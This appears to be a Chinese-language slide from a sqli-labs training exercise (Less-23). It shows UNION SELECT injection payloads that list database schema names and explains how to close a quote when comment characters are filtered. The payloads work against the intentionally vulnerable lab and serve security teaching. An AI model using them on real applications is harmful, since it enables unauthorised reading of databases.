

# Less-23_04

思考：在less-01中我们使用：
Less-01：  union select 1,2, group_concat(schema_name) from information_schema.schemata --+ 可以执行
在less-23中
Less-23： union select 1,2, group_concat(schema_name) from information_schema.schemata ‘ 执行失败
修正：union select 1,2,(select group_concat(schema_name) from information_schema.schemata)’ 执行成功
闭合问题：执行shell可以发现：

此时如何我们不想使用括号的时候如何处理？
union select 1,2,group_concat(schema_name) from information_schema.schemata where ‘a’=‘a  这样就可以了，原因就是闭合的问题
在shell中执行可以看下：
 select * from users where ‘a’=‘a’;  这样可以查询到所有的数据
 select * from users ;其实就是 select * from users where true;